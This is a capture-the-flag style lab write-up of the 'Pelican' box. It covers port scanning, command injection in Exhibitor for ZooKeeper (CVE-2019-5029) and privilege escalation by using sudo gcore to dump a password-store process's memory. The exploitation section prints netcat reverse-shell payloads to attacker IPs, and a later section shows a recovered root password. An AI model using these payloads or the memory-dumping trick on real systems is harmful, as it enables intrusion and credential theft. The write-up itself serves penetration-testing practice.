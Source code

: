 ```yaml
---
description: 11/28/2022
---
```


# Pelican (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.211.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-28T23:54:26
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-28T18:54:26-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
```

Enumerated UDP ports:

```
5353/udp  open          mdns            DNS-based service discovery
| dns-service-discovery: 
|   445/tcp smb
|     Address=192.168.211.98
|   Device Information
|_    Address=192.168.211.98
```

Notes:

* 445/Samba -- Anonymous login no access
* 631/CUPS 2.2
* 2181/zookeeper HTTP
* 8080/HTTP Server -- <mark style="color:yellow;">"Exhibitor" for ZooKeeper - v1.0</mark>
  * <mark style="color:yellow;">This seems very unique let's searchsploit it</mark>
  * <mark style="color:red;">Exhibitor Web UI 1.7.1 - Remote Code Execution -- 48654.txt</mark>

## Enumeration

### Port 8080 - HTTP (Jetty 1.0)

<mark style="color:yellow;">Searchsploit</mark>:&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">CVE-2019-5029</mark>

Version Enumeration:&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5) (1).png" alt=""><figcaption><p>v1.0 -- Confirming vulnerability to CVE-2019-5029</p></figcaption></figure>

## Exploitation

### <mark style="color:yellow;">Command Injection - CVE-2019-5029</mark>

48654.txt:

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

Exploitation/Obtaining Foothold

1. Navigate to Config
2. Select on next to Editing
3. Next to java.env script, add the following <mark style="color:yellow;">`$(/bin/nc -e /bin/sh 192.168.49.211 1337 &)`</mark>
4. Start nc listener on 1337
5. Select commit > all at once > ok
6. Wait a few seconds for the command to execute and you will get your shell!

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (7).png" alt=""><figcaption></figcaption></figure>

Fix shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

Attempted to exploit Polkit but it did not work for some reason because SSH kept asking for a password even when I would generate SSH keys on the target and transfer it to Kali -- Moving on.

* Uploaded linpeas and found a few interesting things

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption><p>password-store looks interesting</p></figcaption></figure>

sudo -l command output:

<figure><img src="../../../.gitbook/assets/image (2) (3) (5).png" alt=""><figcaption></figcaption></figure>

GTFOBins:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

* We see that gcore can be used to generate core dumps of running processes
* Files often containing sensitive information can be targetted this way
* Since we can leverage our permissions with <mark style="color:yellow;">sudo + gcore, can we dump password-store</mark>?

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>using ps command to find pid of password-store to use with gcore</p></figcaption></figure>

* We see that <mark style="color:yellow;">password-store has a PID of 493</mark>
* Time to run <mark style="color:yellow;">gcore</mark> on it

gcore (create dump of PID 493):

```
sudo gcore 493
(...)

Saved corefile core.493
```

* Dump was saved as core.493

Reading contents of dump with strings:

```
strings core.493

(...)
Password: root:
ClogKingpinInning731
(...)
```

* We seemingly obtain the root password

```
su
Password: ClogKingpinInning731
```

<figure><img src="../../../.gitbook/assets/image (1) (10).png" alt=""><figcaption><p>We are root!</p></figcaption></figure>
